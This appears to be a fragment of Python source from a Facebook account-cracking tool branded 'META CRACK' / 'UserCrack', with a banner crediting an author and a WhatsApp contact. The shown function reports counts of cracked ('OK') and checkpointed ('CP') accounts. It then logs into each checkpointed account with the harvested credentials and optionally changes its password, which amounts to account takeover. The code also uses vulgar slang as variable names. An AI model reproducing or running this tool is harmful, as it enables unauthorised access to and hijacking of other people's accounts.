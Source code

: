 \033[1;92m     _          _ 
 \033[1;92m      \\        / 
 \033[1;92m     __\\______/__ 
 \033[1;92m     | [\033[1;31;1m©\033[1;92m]  [\033[1;31;1m©\033[1;92m] | 
  \033[1;92m    |  [\33[1;33m====\033[1;92m]  | [+] META CRACK  [+] 
 \033[1;92m╔══o00════════00o════════════════════╗ 
 \033[1;31;1m█ \033[1;92m [•] \033[1;31;1mAuthor    :  \033[1;92m Yusep XD     \033[1;31;1m   █       
 \033[1;31;1m█ \033[1;92m [•] \033[1;31;1mWhatsapp  :  \033[1;92m +6281383127594 \033[1;31;1m █ 
 \033[1;31;1m█ \033[1;92m [•] \033[1;31;1mWhatsapp  : \033[1;92m  +6281383127594 \033[1;31;1m █ 
 \033[1;31;1m█ \033[1;92m [•] \033[1;31;1mGorup Fb  :  \033[1;92m Private \033[1;31;1m        █ 
 \033[1;31;1m█ \033[1;92m [•] \033[1;31;1mVersion   :\033[1;92m   5.0.5          \033[1;31;1m █ 
 \033[1;92m╚════════════════════════════════════╝""") 
 #CRACK SELESAI 
 def hasil(ok,cp): 
     if len(ok) != 0 or len(cp) != 0: 
         print(f'\n%s══════════════════════════════════════════\n [%s✓%s] %sCracking By James Usercrack...\n%s══════════════════════════════════════════'%(N,H,N,H,N)) 
         print(f' %s[%s+%s] Number of Accounts OK : %s%s%s'%(H,H,H,H,str(len(ok)),H)) 
         print(f' [%s+%s] Number of Accounts CP : %s%s%s'%(H,H,H,str(len(cp)),H)) 
         cek_cp = input(f"{H}══════════════════════════════════════════\n [{H}+{H}] Show CP detector options [{H}Y{N}/{M}t{N}]: ") 
         if cek_cp =="": 
             print(f"\n [{M}!{N}] Don't be empty");hasil(ok,cp) 
         elif cek_cp in["Y","y"]: 
             jalan(f" {N}[{M}!{N}] Play airplanemode first");time.sleep(5) 
             ww=input(f"\n {N}[{K}?{N}] Change password when {BM}TAP YES{N} [{H}Y{N}/{M}t{N}]: ") 
             if ww in ("Y","y","ya"): 
                 ubahP.append("y") 
                 print(f" {N}[{H}•{N}] Password example : {H}james123{N}") 
                 pwBar=input(f" {N}[{K}?{N}] Enter new password : {H}") 
                 #print("\n") 
                 if len(pwBar) <= 5: 
                     print('\n %s[%s×%s] Password minimum 6 characters'%(N,M,N)) 
                 else: 
                     pwBaru.append(pwBar) 
             for memek in cp: 
                 kontol = memek.replace('\n', '') 
                 titid  = kontol.split(' • ') 
                 print(f'{N}══════════════════════════════════════════\n {H}LOGIN PROCESS') 
                 jalan(f' {N}[{M}?{N}] Account : {K}{kontol.replace("[JAMES-CP] ", "")}{N}') 
                 try: 
                     log_hasil(titid[0].replace("[JAMES-CP] ", ""), titid[1]) 
                 except requests.exceptions.ConnectionError: 
                     continue 
                     print("") 
             print("") 
             jalan(' %s[%s✓%s] %sChecking process is complete%s'%(N,H,N,H,N)) 
             jalan(' %s[%s✓%s] Retrun SC type "%spython UserCrack.py%s"'%(N,H,N,H,N));exit() 
         elif cek_cp in["T","t"]: 
             jalan(f"\n {N}[{H}•{N}] {N}Ok, thank you. Retrun SC type '{H}python UserCrack.py{N}'");exit() 
         else: 
             print(f"\n {N}[{M}!{N}] Choose Y/t");hasil(ok,cp) 
     else: 
         jalan('\n\n %s[%s!%s] Sorry you didnt get results'%(N,M,N));exit() 
  